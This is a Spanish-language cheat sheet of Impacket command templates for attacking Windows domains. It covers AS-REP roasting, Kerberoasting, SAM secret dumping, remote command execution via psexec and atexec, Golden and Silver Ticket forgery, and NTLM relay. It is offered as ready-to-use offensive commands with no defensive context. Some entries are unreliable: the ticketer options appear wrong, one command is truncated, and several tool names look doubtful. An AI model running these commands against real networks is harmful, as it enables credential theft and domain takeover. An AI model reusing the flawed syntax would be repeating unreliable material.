 ### impacket-GetNPUsers:
Descripción: Extrae tickets TGT (Ticket Granting Ticket) sin necesidad de autenticación de contraseña, utilizando el protocolo Kerberos.
```python
impacket-GetNPUsers DOMAIN/USER -dc-ip <domain_controller_ip>
```
### impacket-psexec:
Descripción: Ejecuta comandos en un sistema remoto utilizando el servicio PsExec.
```python
impacket-psexec.py DOMAIN/USER:PASSWORD@TARGET_HOST CMD.EXE
```
### impacket-rpcdump:
Descripción: Realiza una enumeración de RPC en un host remoto.
```python
impacket-rpcdump.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-secretsdump:
Descripción: Extrae contraseñas almacenadas en la SAM (Security Accounts Manager) de un sistema Windows.
```python
impacket-secretsdump.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-GetUserSPNs:
enumerar los SPNs asociados a un usuario específico o a todos los usuarios en un dominio.
```python
impacket-GetUserSPNs.py -request <USER>:<PASSWORD> -dc-ip <DOMAIN_CONTROLLER_IP> <DOMAIN>/<USER>
```
### impacket-GetUserSPNs
Obtención del TGS: Una vez que hayas identificado el SPN deseado, puedes solicitar un TGS para ese SPN utilizando `GetUserSPNs
```python
impacket-GetUserSPNs.py <USER>:<PASSWORD> -spn <SPN_TO_TARGET> -dc-ip <DOMAIN_CONTROL
```
### impacket-ticketer Golden Ticket:
Para solicitar un Golden Ticket con Impacket, puedes usar `ticketer.py`. Aquí tienes un ejemplo de cómo hacerlo:
```python
impacket-ticketer.py -nthash <USER_NT_HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN_NAME> -sid <USER_SID> -krbtgt <KRBTGT_HASH> -des <DESCRIPTOR> -rc4 <RC4_HASH> <USER_NAME>
```
Donde:    
    - `<USER_NT_HASH>` es el hash NT (hash de la contraseña) del usuario.
    - `<DOMAIN_SID>` es el SID (identificador de seguridad) del dominio.
    - `<DOMAIN_NAME>` es el nombre del dominio.
    - `<USER_SID>` es el SID del usuario.
    - `<KRBTGT_HASH>` es el hash del usuario KRBTGT.
    - `<DESCRIPTOR>` es el descriptor de seguridad del usuario (opcional).
    - `<RC4_HASH>` es el hash RC4 (opcional).
    - `<USER_NAME>` es el nombre de usuario del usuario.
### impacket-ticketer Silver Ticket**: Para solicitar un Silver Ticket con Impacket, también puedes usar `ticketer.py`. Aquí tienes un ejemplo de cómo hacerlo:
    
    bashCopy code
    
    `impacket-ticketer.py -nthash <USER_NT_HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN_NAME> -sid <USER_SID> -krbtgt <KRBTGT_HASH> -spn <SERVICE_SPN> <USER_NAME>`
    
    Donde:
    
    - `<USER_NT_HASH>` es el hash NT (hash de la contraseña) del usuario.
    - `<DOMAIN_SID>` es el SID (identificador de seguridad) del dominio.
    - `<DOMAIN_NAME>` es el nombre del dominio.
    - `<USER_SID>` es el SID del usuario.
    - `<KRBTGT_HASH>` es el hash del usuario KRBTGT.
    - `<SERVICE_SPN>` es el Service Principal Name (SPN) del servicio al que deseas acceder.
    - `<USER_NAME>` es el nombre de usuario del usuario.
### impacket-atexec:
Descripción: Permite ejecutar comandos en un sistema remoto utilizando el servicio Task Scheduler (programador de tareas).
```python
impacket-atexec.py DOMAIN/USER:PASSWORD@TARGET_HOST COMMAND
```
### impacket-dpapi:
Descripción: Proporciona herramientas para manipular DPAPI (Data Protection API) en sistemas Windows.
```python
impacket-dpapi.py
```
### impacket-esentutl:
Descripción: Permite interactuar con bases de datos ESENT (Extensible Storage Engine) en sistemas Windows.
```python
impacket-esentutl.py
```
### impacket-getArch:
Descripción: Obtiene la arquitectura del sistema remoto (32 o 64 bits).
```python
impacket-getArch.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlclient:
Descripción: Un cliente interactivo de SQL Server que se puede utilizar para ejecutar consultas SQL y comandos en un sistema remoto que ejecuta SQL Server.
```python
impacket-mssqlclient.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlinstance:
Descripción: Enumera las instancias de SQL Server en un sistema remoto.
```python
impacket-mssqlinstance.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlping:
Descripción: Realiza un ping a un servidor SQL para verificar la disponibilidad.
```python
impacket-mssqlping.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-mssqlservice:
Descripción: Enumera los servicios de SQL Server en un sistema remoto.
```python
impacket-mssqlservice.py DOMAIN/USER:PASSWORD@TARGET_HOST
```
### impacket-ntlmrelayx:
Descripción: Se utiliza para realizar ataques de relé NTLM en redes corporativas.
```python
impacket-ntlmrelayx.py -tf targets.txt
```